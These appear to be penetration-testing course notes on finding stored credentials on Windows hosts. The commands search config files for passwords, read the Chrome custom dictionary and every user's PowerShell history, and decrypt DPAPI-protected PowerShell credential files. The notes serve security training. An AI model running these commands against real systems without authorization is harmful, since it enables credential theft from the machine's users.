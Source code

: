### Application Configuration FIles
#### Searching for Files
Some applications may store credentials in cleartext files. 
```powershell-session
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```
Sensitive *IIS* information may be stored in the `web.config` file which could be located at `C:\inetpub\wwwroot\web.config`.

### Dictionary Files
#### Chrome Dictionary Files
Sensitive information such as usernames or passwords may be accidentally (or purposefully) entered into the chrome dictionary to avoid red lines. 
```powershell-session
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

### Unattended Install Files
Unattended files may define auto-logon as part of the installation. Passwords in the *unattended.xml* are stored in plaintext or base64.

Although these files should be automatically deleted as part of the installation, sysadmins may have created copies of the file in other folders during the development of the image and answer file.

### PowerShell History File
Powershell history is stored in the file 
`C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.

```powershell-session
gc (Get-PSReadLineOption).HistorySavePath
```

We can also use this one-liner to retrieve the contents of all Powershell history files that we can access as our current user
```powershell-session
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

### Powershell Credentials
Powershell credentials are often used for scripting and automating tasks as a way to store encrypted credentials conveniently. The credentials are protected using [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API), which typically means they can only be decrypted by the same user on the same computer they were created on.

For example if we find the following script:
```powershell
# Connect-VC.ps1
# Get-Credential | Export-Clixml -Path 'C:\scripts\pass.xml'
$encryptedPassword = Import-Clixml -Path 'C:\scripts\pass.xml'
$decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
Connect-VIServer -Server 'VC-01' -User 'bob_adm' -Password $decryptedPassword
```
We can see that theres a powershell cred stored in `C:\scripts\pass.xml`
#### Decrypting Powershell Creds
```powershell-session
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
```
```powershell-session
$credential.GetNetworkCredential().username
```
```powershell-session
$credential.GetNetworkCredential().password
```